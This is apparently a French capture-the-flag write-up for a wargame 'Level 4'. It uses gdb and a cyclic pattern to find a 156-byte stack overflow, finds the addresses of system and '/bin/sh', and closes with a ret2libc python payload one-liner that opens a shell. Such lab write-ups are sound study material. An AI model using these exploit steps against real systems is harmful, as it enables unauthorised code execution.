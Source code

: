 Level 4

On voit que le program fait un fork et va checker avec ptrace si nous n'executons pas de exec().
On voit que le fgets() prend 156 caractere et que si l'on depasse ca fait boucler le processus fils en boucle inf.

Nous allons donc determiner le nbr de caractere pour faire overflow grace a un pattern overflow generator.

1er probleme il faut reussir a suivre les informations dans le processus fils : 
```
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
[New process 2088]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2088]
0x41326641 in ?? ()
```
l'overflow est au 156eme caractere.

Il faut donc lancer un shellcode sans exce()
On peut simplement appeler system "/bin/sh"

Pour trouver l'addresse de "/bin/sh" grace a gdb :
```find &system, +999999999, "/bin/sh"```
Pour trouver l'addresse de system grace a gdb :
```print &system```

Attention, system prend 4 octets random pour son addresse de retour 
```
(python -c "print 'a' * 156 + '\xd0\xae\xe6\xf7' + '0000' + '\xec\x97\xf8\xf7' " ; cat -) | ./level04
```